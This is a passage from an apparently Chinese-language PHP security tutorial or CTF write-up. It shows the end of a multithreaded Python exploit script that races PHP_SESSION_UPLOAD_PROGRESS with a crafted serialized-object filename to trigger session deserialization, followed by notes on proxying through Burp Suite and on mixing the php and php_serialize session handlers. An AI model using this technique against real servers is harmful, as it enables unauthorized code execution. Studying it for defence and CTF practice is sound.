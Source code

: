 ```
        'DNT': '1',
        'Cookie': 'PHPSESSID=20190506',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1'
        }
        proxy = {
        'http': '127.0.0.1:8080'
        }
        data={'PHP_SESSION_UPLOAD_PROGRESS':'123'}
        files={
            'file':(r'|O:4:\"Door\":1:{s:6:\"handle\";O:2:\"IP\":1:{s:2:\"ip\";s:10:\"phpinfo();\";}}',f,'text/plain')
        }
        resp = requests.post(url,headers=headers,data=data,files=files,proxies=proxy) #,proxies=proxy
        resp.encoding="utf-8"
        if len(resp.text)&lt;2000:
            print('[+++++]retry')
        else:
            print(resp.content.decode('utf-8').encode('utf-8'))
            et.clear()
            print('success!')
            
​
if __name__ == "__main__":
    ip=sys.argv[1]
    port=int(sys.argv[2])
    et=threading.Event()
    for i in range(1,40):
        threading.Thread(target=exp,args=(ip,port)).start()
    et.set()
​

```

> 
在代码里加个代理，利用burpsuite抓包


> 
这里有几个注意点：



> 
把exp.py中的代理去掉，直接跑exp.py，效果如下


### 利用不同的引擎来处理session文件

> 
php处理器和php_serialize处理器这两个处理器生成的序列化格式本身是没有问题的，但是如果这两个处理器混合起来用，就会造成危害。形成的原理就是在用session.serialize_handler = php_serialize存储的字符可以引入 | , 再用session.serialize_handler = php格式取出$_SESSION的值时， |会被当成键值对的分隔符，在特定的地方会造成反序列化漏洞<br/> 我们创建一个session.php，用于传输session值，里面代码如下

